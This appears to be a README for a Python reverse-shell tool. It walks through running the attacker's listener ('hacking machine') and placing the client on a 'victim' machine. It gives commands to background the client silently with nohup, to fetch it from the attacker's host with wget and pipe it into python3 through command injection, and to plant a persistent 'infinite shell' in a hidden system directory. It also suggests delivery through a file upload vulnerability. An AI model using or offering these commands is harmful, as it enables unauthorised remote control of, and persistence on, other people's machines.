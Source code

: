 # Usage

## On Hacking machine
`python3 rs_server.py`
<- edit the file to use the port you want or pass it in as an argument (default 8000). 

## Direct Client Deployment
`python3 rs_client.py`
^ edit the file to use the rs_server IP and port you want. 

Or pass them in as an argumenta (default port 8000)
`python3 rs_client.py <rs_server_ip> <rs_server_port>`

Or run as a backgroud job
`nohup python3 rs_client.py <hacker_ip> &> /dev/null &`

## Indirect Client Deployment \[PREFERRED\]
(works with cmd line injection)

- \[SERVER\] Host rs_client.py somehere
- - One option is to start a python web server on the rs_server
- - `python3 -m http.server 8080`   
- \[CLIENT]\ Download + Execute from client machine
- - `wget -O - <host:port/rs_client.py> | python3`
- \[SERVER\] Download + Execute the Infinite shell (keeps rs_client active if it disconnects)
- - Follow these steps once server is connected to client.
- - Navigate to specific dir or Make a hidden dir
- - - `cd /usr/bin/local`  
- - Download from your rs_server
- - - `wget <host:port/infiniteShell.py>`
- - Run in background witn nohup  
- - - `nohup bash infiniteShell.sh &> /dev/null &`


## Indirect Client Deployment [ALT]
- Could also exploit a file upload vulnerability and upload the file onto the victim's machine


### Port as an optional argument
Both scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

